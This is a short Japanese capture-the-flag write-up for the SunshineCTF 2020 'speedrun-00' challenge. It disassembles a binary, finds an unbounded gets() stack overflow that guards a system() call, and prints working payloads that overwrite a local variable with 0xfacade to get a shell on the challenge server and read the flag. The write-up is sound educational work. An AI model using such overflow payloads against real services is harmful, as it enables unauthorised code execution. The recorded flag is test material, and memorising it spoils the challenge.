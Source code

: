 # speedrun-00:Speedrun:10pts
nc chal.2020.sunshinectf.org 30000  
[chall_00](chall_00)  

# Solution
ファイルが配られる。  
```bash
$ file chall_00
chall_00: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=dadca72eeddf37ba3b9fed1543b8ccdf75cbc78e, not stripped
$ ./chall_00
This is the only one
AAAAA
$ ./chall_00
This is the only one
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (コアダンプ)
```
実行ファイルであり、BOFがありそうだ。  
gdbでmainを見てみる。  
```bash
$ gdb chall_00
~~~
gdb-peda$ disass main
Dump of assembler code for function main:
   0x00000000000006ca <+0>:     push   rbp
   0x00000000000006cb <+1>:     mov    rbp,rsp
   0x00000000000006ce <+4>:     sub    rsp,0x40
   0x00000000000006d2 <+8>:     lea    rdi,[rip+0xcb]        # 0x7a4
   0x00000000000006d9 <+15>:    call   0x580 <puts@plt>
   0x00000000000006de <+20>:    lea    rax,[rbp-0x40]
   0x00000000000006e2 <+24>:    mov    rdi,rax
   0x00000000000006e5 <+27>:    mov    eax,0x0
   0x00000000000006ea <+32>:    call   0x5a0 <gets@plt>
   0x00000000000006ef <+37>:    cmp    DWORD PTR [rbp-0x4],0xfacade
   0x00000000000006f6 <+44>:    jne    0x704 <main+58>
   0x00000000000006f8 <+46>:    lea    rdi,[rip+0xba]        # 0x7b9
   0x00000000000006ff <+53>:    call   0x590 <system@plt>
   0x0000000000000704 <+58>:    cmp    DWORD PTR [rbp-0x8],0xfacade
   0x000000000000070b <+65>:    jne    0x719 <main+79>
   0x000000000000070d <+67>:    lea    rdi,[rip+0xa5]        # 0x7b9
   0x0000000000000714 <+74>:    call   0x590 <system@plt>
   0x0000000000000719 <+79>:    nop
   0x000000000000071a <+80>:    leave
   0x000000000000071b <+81>:    ret
End of assembler dump.
gdb-peda$ q
```
`gets`でオーバーフローさせて、`cmp    DWORD PTR [rbp-0x4],0xfacade`や`cmp    DWORD PTR [rbp-0x8],0xfacade`を真にしてやればよい。  
gdbなどでパディングを調整し、以下のように書き換えを行う。  
```bash
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xde\xca\xfa\x00";cat) | ./chall_00
This is the only one
ls
chall_00
^C
$ (python -c 'import sys; sys.stdout.buffer.write(b"A"*56 +  b"\xde\xca\xfa\x00")';cat) | ./chall_00
This is the only one

ls
chall_00
^C
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xde\xca\xfa\x00";cat) | nc chal.2020.sunshinectf.org 30000
This is the only one
ls
chall_00
flag.txt
cat flag.txt
sun{burn-it-down-6208bbc96c9ffce4}
^C
```
シェルが得られるので、flag.txtを見るとflagが書かれていた。  

## sun{burn-it-down-6208bbc96c9ffce4}